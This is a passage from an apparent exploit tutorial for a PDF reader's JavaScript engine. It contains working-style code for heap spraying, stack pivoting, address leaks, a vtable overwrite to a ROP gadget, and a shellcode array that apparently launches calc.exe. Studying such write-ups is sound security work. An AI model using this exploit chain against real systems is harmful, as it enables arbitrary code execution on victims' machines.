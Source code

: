                > Through this process, you can control memory values by using the VA of specific memory locations.
               > 

# 4. **Preparing Stack Pivoting**

```jsx
var heapSegmentSize = 0x10000;
heapSpray = new Array(0x8000);

for (var i = 0; i < 0x8000; i++) {
    heapSpray[i] = new ArrayBuffer(heapSegmentSize - 0x10 - 0x8);
}
```

- Stack Pivoting is performed by moving the `esp` (stack pointer) to an arbitrary address, tricking the program into treating that area as a fake stack.
- The fake stack where the `esp` is moved must have write permissions to allow the stack to grow and to prevent errors caused by the absence of write permissions.
    
    To ensure this, a large amount of heap space is allocated so that the fake stack where the `esp` is moved is more likely to have both read and write permissions.
    
- However, since the fake stack does not always end up in the sprayed heap area (allocated heap space), the exploit does not always succeed.

## 5. **Address Leak & Overwrite ⇒ Hijacking Execution Flow**

```jsx
// 1. START Information Leak// leak the base address of EScript
EScriptModAddr = readUint32(rw, readUint32(rw, StartAddr - 8) + 0xC) - 0x277548;

// leak VirtualProtect address in kernel32.dll used by EScript
VirtualProtectAddr = readUint32(rw, EScriptModAddr + 0x1B0060);

// leak address of vtable
var dataViewObjPtr = rw.getUint32(0xFFFFFFFF + 0x1 - 0x8, true);
var dvShape = readUint32(rw, dataViewObjPtr);
var dvShapeBase = readUint32(rw, dvShape);
var dvShapeBaseClasp = readUint32(rw, dvShapeBase);
// END Information Leak

// 2. Overwrite address of getProperty in vtable to address of ROP gadget
var offset = 0x1050AE;
writeUint32(rw, dvShapeBaseClasp + 0x10, EScriptModAddr + offset);

// 3. Set Shellcode
var shellcode = [0xec83e589, 0x64db3120, 0x8b305b8b, 0x5b8b0c5b, 0x8b1b8b1c, 0x08438b1b, 0x8bfc4589, 0xc3013c58, 0x01785b8b, 0x207b8bc3, 0x7d89c701, 0x244b8bf8, 0x4d89c101, 0x1c538bf4, 0x5589c201, 0x14538bf0, 0xebec5589, 0x8bc03132, 0x7d8bec55, 0x18758bf8, 0x8bfcc931, 0x7d03873c, 0xc18366fc, 0x74a6f308, 0xd0394005, 0x4d8be472, 0xf0558bf4, 0x41048b66, 0x0382048b, 0xbac3fc45, 0x63657878, 0x5208eac1, 0x6e695768, 0x18658945, 0xffffb8e8, 0x51c931ff, 0x78652e68, 0x61636865, 0xe389636c, 0xff535141, 0xb9c931d0, 0x73736501, 0x5108e9c1, 0x6f725068, 0x78456863, 0x65897469, 0xff87e818, 0xd231ffff, 0x00d0ff52];
var shellcodesize = shellcode.length * 4;
// Write Shell Code
for (var i = 0; i < shellcode.length; i++) {
	writeUint32(rw, StartAddr + 0x18 + i * 4, shellcode[i]);
}

// 4. Setup new Stack
var newStackAddr = 0x5D000001;

writeUint32(rw, newStackAddr, VirtualProtectAddr);      // RIP 1
writeUint32(rw, newStackAddr + 0x4, StartAddr + 0x18);  // RIP 2
```